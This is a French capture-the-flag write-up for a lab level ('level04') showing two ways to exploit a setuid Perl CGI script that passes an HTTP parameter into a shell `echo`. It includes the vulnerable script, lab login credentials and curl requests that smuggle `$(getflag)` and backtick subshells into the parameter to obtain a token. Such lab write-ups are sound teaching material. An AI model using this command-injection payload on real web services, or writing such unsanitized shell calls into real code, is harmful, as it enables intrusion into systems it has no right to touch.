 # Level04

Se connecter en tant que `level04`:

    $ ssh 192.168.1.124 -p 4242 -l level04
    level04@192.168.1.124's password: qi0maab88jeaj46qoumi7maus

---

> Methode 1

Lors de mes premières explorations de l'iso, j'avais pu voir que dans /var/www/ il y avait 2 dossiers concernant des levels précis dont le level04 mais je n'avais pas les droits pour savoir ce qu'ils contenaient.

    $ ls -la /var/www
    total 4
    [...]
    -r-xr-x---+ 1 root   root    177 Aug 30  2015 index.html
    dr-xr-x---+ 2 flag04 level04  60 Aug  3 08:50 level04
    [...]

Le home de level04 est une copie du dossier level04 dans /var/www, les deux contiennent un script perl.

    $ ls -la
    total 16
    [...]
    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

J'ai d'abord `cat` le fichier pour comprendre ce que le script perl faisait:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

`Le script perl utilise CGI qui est un framework pour exécuter des requêtes http`. Ici il prend des paramètres dans la requête comme on peut le voir avec `qw{param}`.

La fonction `x()` print le résultat de la commande `echo $y`. `$y` est ici le premier paramètre passé à la fonction x, qui est le paramètre x passé dans la requête http.

Je sais que je peux executer une commande dans un echo avec des `backquote`

    $ echo `ls -la`
    total 12 dr-xr-x---+ 1 level04 level04 100 Mar 5 2016 . d--x--x--x 1 root users 340 Aug 30 2015 .. -r-x------ 1 level04 level04 220 Apr 3 2012 .bash_logout -r-x------ 1 level04 level04 3518 Aug 30 2015 .bashrc -r-x------ 1 level04 level04 675 Apr 3 2012 .profile

Je sais aussi que le script perl est éxecuté avec les droits de l'utilisateur `flag04`

Il ne me reste plus qu'à exécuter le script via une requête `http`

    http://192.168.1.124:4747/?x=`getflag`

--------

> Methode 2

Premiere étape de recherche

    $ ls -l
    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

On trouve un script perl avec setuid et setgid

Version commentée du script

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
# fonction qui affiche son argument via echo
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
# l'argument de la fonction x est le parametre nomme "x"
x(param("x"));
```

Un script perl qui utilise CGI, donc servi par un serveur web, sur le port 4747 comme indiqué en commentaire

Testons avec curl

    $ curl -I 192.168.1.124:4747
    HTTP/1.1 200 OK
    Date: Thu, 28 Nov 2019 11:04:23 GMT
    Server: Apache/2.2.22 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 1
    Content-Type: text/html

Le script affiche la valeur du parametre "x" de la requete

    $ curl 192.168.1.124:4747?x=getflag
    getflag

On peut injecter un subshell pour que echo affiche son resultat

    $ curl '192.168.1.124:4747?x=$(getflag)'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
